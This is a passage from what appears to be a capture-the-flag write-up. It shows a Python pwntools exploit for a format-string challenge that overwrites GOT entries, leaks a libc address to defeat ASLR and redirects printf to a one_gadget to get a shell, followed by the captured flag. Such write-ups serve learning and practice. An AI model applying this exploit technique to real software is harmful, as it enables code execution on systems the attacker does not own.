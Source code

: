 ```python
fmt = FmtStr(execute_fmt = send_payload, offset = 8)

# Stage 1: Loop main, disable sleep

with log.progress('Stage 1: Loop main, disable sleep'):
    fmt.write(elf.got['exit'], elf.symbols['main'])
    log.info('exit -> main')

    fmt.write(elf.got['sleep'], elf.symbols['ret'])
    fmt.write(elf.got['alarm'], elf.symbols['ret'])
    fmt.write(elf.got['signal'], elf.symbols['ret'])
    log.info('sleep -> ret')
    log.info('alarm -> ret')
    log.info('signal -> ret')

    fmt.execute_writes()

# Stage 2: Leak libc_start_main + 231

with log.progress('Stage 2: Leak __libc_start_main + 231'):
    libc_start_main_231 = fmt.leak_stack(119)
    log.info(f'Leaked (__libc_start_main + 231): 0x{libc_start_main_231:08x}')

    libc.address = libc_start_main_231 - (libc.symbols['__libc_start_main'] + 231)
    log.info(f'Calculated libc base address: 0x{libc.address:08x}')

# Stage 3: One Gadget

with log.progress('Stage 3: One Gadget'):
    fmt.write(elf.got['printf'], libc.symbols['one_gadget'])
    log.info('printf -> one gadget')

    fmt.execute_writes()

# Stage 4: Pwn

with log.progress('Stage 4: Pwn'):
    r.interactive()

r.close()

```

Let's see it in action!

<script id="asciicast-337112" src="https://asciinema.org/a/337112.js" async></script>

Flag: `flag{fl1gh7_0f_7h3_l1bc_func710n5_77e82515}`
